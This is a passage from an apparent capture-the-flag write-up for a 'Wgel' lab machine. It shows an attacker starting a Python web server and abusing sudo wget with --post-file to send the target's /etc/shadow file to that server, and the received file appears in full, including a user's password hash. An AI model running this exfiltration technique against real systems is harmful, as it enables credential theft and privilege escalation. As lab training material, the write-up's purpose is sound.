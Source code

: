 ```

2023-01-16 17:22:38 (23,3 MB/s) — « server.py » sauvegardé [1575/1575]

attacker@AttackBox:~/Wgel_CTF$ python3 server.py 8080
INFO:root:Starting httpd...
```

Now, let's try to send the `/etc/shadow` file from the target :  
```
jessie@CorpOne:~$ sudo wget --post-file=/etc/shadow http://10.14.32.60:8080/shadow
--2023-01-16 18:24:28--  http://10.14.32.60:8080/shadow
Connecting to 10.14.32.60:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘shadow’

shadow                            [ <=>                                             ]      24  --.-KB/s    in 0s      

2023-01-16 18:24:28 (4,76 MB/s) - ‘shadow’ saved [24]
```

Let's see if we received the file on our web server :  
```
attacker@AttackBox:~/Wgel_CTF$ python3 server.py 8080
INFO:root:Starting httpd...

INFO:root:POST request,
Path: /shadow
Headers:
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.14.32.60:8080
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1273

Body:
root:!:18195:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
...
...
pulse:*:17954:0:99999:7:::
rtkit:*:17954:0:99999:7:::
saned:*:17954:0:99999:7:::
usbmux:*:17954:0:99999:7:::
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::

10.10.72.16 - - [16/Jan/2023 17:24:28] "POST /shadow HTTP/1.1" 200 -
```
